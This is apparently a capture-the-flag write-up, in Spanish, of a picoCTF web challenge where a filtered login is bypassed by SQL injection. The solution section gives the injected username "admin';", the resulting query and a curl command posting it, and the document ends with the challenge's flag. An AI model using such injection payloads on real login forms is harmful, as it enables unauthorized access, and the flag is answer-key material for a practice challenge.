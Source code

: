 
## Descripción

There is a website running at `https://jupiter.challenges.picoctf.org/problem/53751/` ([link](https://jupiter.challenges.picoctf.org/problem/53751/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:53751

## Pistas

The password is being filtered.

## Solución

```python()
Mediante la propia página web:
username: admin';
password: dsfdsdf
SQL query: SELECT * FROM users WHERE name='admin';' AND password='dsfdsdf'
En linux sería:
curl -s tps://jupiter.challenges.picoctf.org/problem/53751/login.php -d "username=admin';&password=hola&debug=1"   
```

## Bandera
picoCTF{m0R3_SQL_plz_c34df170}

## Notas adicionales